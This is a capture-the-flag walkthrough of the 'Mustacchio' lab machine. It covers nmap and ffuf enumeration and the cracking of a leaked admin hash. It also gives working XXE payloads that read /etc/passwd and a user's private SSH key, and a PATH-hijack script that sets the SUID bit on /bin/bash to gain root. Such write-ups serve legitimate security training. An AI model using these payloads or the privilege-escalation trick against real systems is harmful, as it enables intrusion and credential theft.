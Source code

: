 # Enumeration

Starting with Nmap

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-12 22:51 IST
Nmap scan report for 10.10.156.81
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```

According to nmap results, we have 3 ports open. We dont have anything for ssh, so lets start poking around at webserver.

### PORT 80

 Looking at this port, seems like its a static webpage. Running ffuf on it for directory brute-force
 ```bash
 fuf -u http://10.10.156.81/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c

...[snip]...

 :: Method           : GET
 :: URL              : http://10.10.156.81/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

images                  [Status: 301, Size: 313, Words: 20, Lines: 10]
custom                  [Status: 301, Size: 313, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10]
                        [Status: 200, Size: 1752, Words: 77, Lines: 73]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
:: Progress: [220546/220546]_:: Job [1/1] :: 206 req/sec :: Duration: [0:17:50] :: Errors: 0 ::
```

In the custom/js dir, we found `mobile.js` and `users.bak`. The latter file seems interesting, lets download it. Checking the file contents:
```
0]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

The above seems like credentials (but we dont have anything to login). The hash was SHA-1, decoding the hash, we got the password `bulldog19`.

### Port 8765

  We have an Admin login page. Using the credentials we found earlier, we were logged-in. The admin page says:
  ![image](https://user-images.githubusercontent.com/43528306/121785785-6fdc9180-cbd9-11eb-8a83-f0b74242f25a.png)

  Looking at the source code of the page
  
![image](https://user-images.githubusercontent.com/43528306/121785568-28093a80-cbd8-11eb-9128-dbb9a265f896.png)

```javascript
//document.cookie = "Example=/auth/dontforget.bak"; 
      function checktarea() {
      let tbox = document.getElementById("box").value;
      if (tbox == null || tbox.length == 0) {
        alert("Insert XML Code!")
      }
   }
```

So it seems like we can send XML code through it. This might be vulnerable to *XXE*. Also in the source code, we found a file `/auth/dontforget.bak`. Looking at this file, it was a sample xml code that might work. First lets test it with the format in file only. It worked.

Now its time to make some changes to the file and add our payload. First lets test whether the application is vulnerable to XXE or not
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY test "Doe"> ]>
<comment>
  <name>john</name>
  <author>blah</author>
  <com>&test;</com>
</comment>
```

In the output, we see `Comment: Doe`. Our injection did work. Now lets grab `/etc/passwd` as usaul :D
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
        <name>john</name>
  <author>abc</author>
  <com>&xxe;</com>
</comment>
```

We got our file. From the comment in source code, we know that *barry* can ssh into the machine. So let's try to grab barry's ssh key. 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
        <name>john</name>
  <author>abc</author>
  <com>&xxe;</com>
</comment>
```

We got the key but it was incrypted. Running `ssh2john`, we got the hash. After running john
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
...[snip]...
urieljames       (barry)
...[snip]...
```

We can now ssh into the box using key and passphrase we found and grab user.txt

# ROOT

There were two users on the box, *barry* and *joe*. Since we dont have any password for barry, `sudo -l` failed. After looking for a while to switch to *Joe* user, didn't find anything. Looking at Joe's home dir, it had
```bash
barry@mustacchio:/home/joe$ ls -l
total 20
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log
```

The binary was owned by root and had *SUID* bit set on it. Let's run the binary, it seems to return live webserver's logs. As it was a binary not stripped, first step, look at stings. We found
`tail -f /var/log/nginx/access.log`. The binary was using `tail` binary but it was not using full path of the binary. So we can try path hijack.

Creating a file named `tail` in /tmp directory.
```bash
#!/bin/bash

chmod +xs /bin/bash
```

Change the PATH env variable, and execute the file. After executing, we can see `/bin/bash` now have *suid* bit set on it. Now, simply `/bin/bash -p` and we are root.
